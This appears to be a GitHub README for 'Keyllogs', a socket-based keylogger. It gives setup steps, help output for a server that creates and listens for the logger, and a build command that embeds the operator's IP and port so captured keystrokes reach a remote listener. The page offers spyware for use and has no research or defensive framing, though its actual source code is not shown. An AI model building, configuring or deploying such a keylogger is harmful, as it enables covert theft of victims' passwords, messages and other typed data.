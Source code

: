 # Keyllogs
👻 - Simple Keylloger with Socket

<h1 align="center">Keyllogs</h1>

<p align="center">
  <img src="https://media.discordapp.net/attachments/834069767416446977/931329369350213682/Keyllogs.jpg?width=973&height=671">
</p>


## 🎲 - Run Keyllogs :
```cs
/*
  - Install Keyllogs
  - Extract it
  - Run setup.bat
  - type : Keyllogs.py -h
*/
```

## 🎲 - Help :
```cs

C:\Users\Bidouffe\Desktop\key>server.py -h

usage: server.py [-h] [-A A] [-H H] [-P P]

Keyllogs [Bidouffe]

optional arguments:
  -h, --help  show this help message and exit
  -A A        Action [create/listen]
  -H H        IP to listen
  -P P        PORT to listen

```


## 🎲 - compile :
```cs
 - Keyllogs.py -A create -H YOURIP -P YOURPORT
 - setup.py
```
#

<p align="center"> 
  <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/Bidouffe/Ziper">
  <img alt="star" src="https://img.shields.io/github/stars/Bidouffe/Ziper">
  <img alt="commit" src="https://img.shields.io/github/last-commit/Bidouffe/Ziper">
  <img alt="license" src="https://img.shields.io/github/license/Bidouffe/Ziper">
</p>
